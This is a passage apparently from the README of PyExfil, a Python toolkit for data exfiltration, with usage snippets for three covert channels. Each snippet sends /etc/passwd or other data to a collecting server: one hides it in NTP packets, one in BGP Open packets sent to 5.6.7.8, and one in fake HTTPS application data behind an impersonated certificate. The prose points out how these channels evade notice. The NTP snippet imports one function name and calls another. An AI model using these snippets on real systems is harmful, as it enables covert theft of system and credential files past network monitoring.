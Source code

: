 ```python
from pyexfil.network.NTP.ntp_exfil import exfiltrate, ntp_listen, NTP_UDP_PORT

# For Client (exfil)
ip_addr = "127.0.0.1"
exfiltrate("/etc/passwd", ip_addr, time_delay=0.1)

# For Server (collecting)
ntp_listener(ip="0.0.0.0", port=NTP_UDP_PORT)
```

#### BGP Open
This module rides a BGP packet for establishing data communication. Since BGP is used for routing is usually has a lower profile in attacks although a small examination of such packets will show abnormal behavior.

```python
from pyexfil.network.BGP.bgp_exfil import server, exfiltrator

# For Client (exfil)
ip_addr = "5.6.7.8"
exfiltrator(ip_addr, "/etc/passwd", time_delay=0.1)

# For Server (collecting)
server("1.2.3.4")
```

#### HTTPS Replace Certificate
With this method you are configuring an HTTP server to impersonate the certificate. When you exfiltrate data, it will use the original server to exchange certificates with the duplicating server (port forwarding) and then, when this is complete, transmit the data with AES encryption but wraps it up as SSL Application Data as there is no real way of telling this.

For using this method as string delivery (short messages):
```python
# For Server:
from pyexfil.network.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192)
server.startlistening()

# For Client:
from pyexfil.network.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendData("ABC")
client.sendData("DEFG")
client.close()
```

As an exfiltration module for files:
```python
# Server:
from pyexfil.network.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192, file_mode=True)
server.startlistening()

# Client:
from pyexfil.network.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendFile("/etc/passwd")
client.close()
```